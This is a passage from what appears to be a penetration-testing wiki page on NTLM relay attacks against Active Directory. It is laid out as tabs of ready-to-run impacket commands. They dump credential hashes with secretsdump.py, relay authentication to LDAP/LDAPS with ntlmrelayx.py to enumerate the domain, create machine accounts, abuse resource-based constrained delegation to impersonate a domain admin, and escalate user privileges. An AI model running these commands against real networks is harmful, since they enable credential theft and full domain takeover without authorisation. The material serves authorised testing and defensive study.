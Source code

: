 ```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Domain dump" %}
The following command will run an enumeration of the Active Directory domain through the relayed authenticated session. The operation will create multiple `.html`, `.json` and `.grep` files.

```bash
ntlmrelayx.py -t ldap://$DC_TARGET
```
{% endtab %}

{% tab title="Account creation" %}
The following command will abuse the default value \(i.e. 10\) of `ms-DS-MachineAccountQuota` to create a domain machine account. The tester will then be able to use it for AD operations.

```bash
ntlmrelayx.py -t ldaps://$DC_TARGET --add-computer SHUTDOWN
```
{% endtab %}

{% tab title="Kerberos deleg." %}
The following command will [abuse Resource Based Kerberos Constrained Delegations \(RBCD\)](../abusing-kerberos/delegations.md#resource-based-constrained-delegations-rbcd) to gain admin access to the relayed machine. The `--escalate-user` option must be supplied with a controlled machine account name. If no machine account is controlled, the `--add-computer` option can be supplied instead like the "Account creation" tab before, and by targeting LDAPS instead of LDAP.

```bash
ntlmrelayx.py -t ldaps://$DC_TARGET --escalate-user SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account \(e.g. the domain admin\) on it.

```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```
{% endtab %}

{% tab title="Privesc" %}
The following command will try to relay the authentication over LDAPS and escalate the privileges of a domain user by adding it to a privileged group \(`--escalate-user`\) if the relayed account has sufficient privileges.

```bash
ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --escalate-user SHUTDOWN
```

{% hint style="info" %}
This technique is usually combined with a [PushSubscription abuse \(a.k.a. PrivExchange\)](../coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to force an Exchange server to initiate an authentication, relay it to a domain controller and abuse the default high privileges of Exchange servers in AD domains \(`WriteDACL` over domain object, see [Abusing ACEs](../abusing-aces/)\) to escalate a domain user privileges \(`--escalate-user`\).
{% endhint %}
{% endtab %}
